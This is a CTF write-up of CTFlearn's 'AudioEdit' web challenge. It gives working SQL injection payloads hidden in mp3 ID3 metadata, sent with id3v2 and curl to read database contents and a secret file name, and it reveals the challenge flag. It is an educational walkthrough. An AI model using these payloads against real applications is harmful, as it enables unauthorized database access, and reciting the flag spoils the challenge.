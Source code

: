 # AudioEdit

[AudioEdit](https://web.ctflearn.com/audioedit/) is a **hard** web challenge on CTFlearn. That challenge is about exploiting SQL injection vulnerability in the metadata of an audio file.


## Solution

When we visit the website, we see a simple audio editing tool. We can upload an audio file, and then we can apply some effects to it.

![AudioEdit](https://cdn.sarperavci.com/8365376d/0efcf3.png)

If we upload a mp3 file, we can see that the author of the music and the title of the song are displayed, which are extracted from the metadata of the file.

So I downloaded an arbitrary mp3 file from that [website](https://cable.ayra.ch/empty/) and edited the metadata using `id3v2` tool.

Install the tool using the following command.

```bash
sudo apt-get install -y id3v2
```

Then I changed the author of the song to `AAAAAAAAAAAAAAAAAAAAAA`.

```bash
id3v2 -a "AAAAAAAAAAAAAAAAAAAAAA" empty.mp3
```

I uploaded the file to the website and I saw that the metadata was changed.

![AudioEdit](https://cdn.sarperavci.com/fbd43a25/70eade.png)

I inferred that when we upload a file, the server extracts the metadata and stores it in a database. So I tried to upload an mp3 file with a sql injection in the metadata.

```bash
id3v2 -a "AAAAAAAAAAAAAAAAAAAAAA' OR 1=1 --" empty.mp3
```
To speed up the process, we can send the request to the server using `curl` and extract the author of the song from the response.
 
```bash
sarp@IdeaPad:/tmp$ id3v2 -a "aAAAAAAAAAAAAAAAAAAAAAA' OR 1=1 --" empty.mp3 | curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L 

Error inserting into database!
```

The server returned an error message, which means that the sql injection may be successful. 

Assume that the query executed by the server is like this:

```sql
INSERT INTO audios (id, author, title) VALUES (NULL, '$author', '$title');
```

Since it is likely insertion-based SQL injection and reflects the author field, we can try to extract the version of the database management system.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', VERSION() ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

5.5.58-0ubuntu0.14.04.1
```
We successfully extracted the version of the database management system. It is MySQL 5.5.58.

The reason why I used `xxd -l16 -ps /dev/urandom` is to generate a random string of length 16 and make the file unique. Otherwise, the server won't accept the same file.

Also, I wrote a grep command to extract title section from the response.

Now, we can extract the name of the database.

```bash
id3v2 -a "$(xxd -l16 -ps /dev/urandom)', DATABASE() ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

audioedit
```

The name of the database is `audioedit`. Here, I have tried many different payloads to extract the table names and column names. But I couldn't find any useful information. Because we even don't have the read permission on the information_schema database. The payloads I tried are perfectly valid, I know that because I tried them on my local MySQL server.

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='audioedit';
```

This query should return the table names in the `audioedit` database. But it didn't work.


So, there's nothing left to do but to guess the table name and column names.

I tried to extract the flag from the `flag` table but I couldn't find the table name. Then I tried the `audioedit` table and I was successful.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', (SELECT title FROM audioedit as a LIMIT 1) ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

flag
```

Seems like we are in the right direction. In the `audioedit` table, there is a column named `title` and the first row contains an entry having the value `flag`.

Keep the payload the same and change the column name to `author`.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', (SELECT author FROM audioedit as a LIMIT 1) ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

ABCTF
```

Since the URL is formed like this, we can try to extract the `file` column from the `audioedit` table.

```
https://web.ctflearn.com/audioedit/edit.php?file=6a84c0529f9644a4275d4bd64b5266c584a26755.mp3
```

Here is the command to extract the `file` column.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', (SELECT file FROM audioedit as a LIMIT 1) ) -- -" empty.mp3  |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

supersecretflagf1le.mp3
```

Bingo! We found the name of the file that contains the flag. Now we can download the file using the following URL.

```
https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3
```

![](https://cdn.sarperavci.com/eb0fa8cf/879d07.png)

Actually, the challenge was done at this point. However, years have passed since the challenge was published, the site does not work properly. So we couldn't see the spectogram of the audio file. But we can still download the file and listen to it.

```bash
wget https://web.ctflearn.com/audioedit/uploads/supersecretflagf1le.mp3
```

After I did some research and found a repository that the javascript implementation of the spectogram. I forked the repository and made some changes to make it work with the downloaded file.

<img src="https://camo.githubusercontent.com/89f19baf736619559be7fc253f898aa58cc2339558dbab81fbf68c2e0e76f2eb/687474703a2f2f7572747a7572642e6769746875622e696f2f68746d6c2d617564696f2f7374617469632f696d672f73637265656e73686f742e706e67" alt="Spectogram" width="250" height="250">


You can [visit](https://github.com/urtzurd/html-audio) the repository I forked and hosted on GitHub Pages [here](https://sarperfiles.github.io/html-audio/static/)
 

![Spectogram](https://cdn.sarperavci.com/d1d9849c/e06182.png)

The flag is `ABCTF{m3t4_inj3cti00n}`.

## Conclusion

Huh! That's a lot of work. I hope you enjoyed the challenge as much as I did. If you have any questions, feel free to ask me on [Twitter](https://twitter.com/sarperavci).
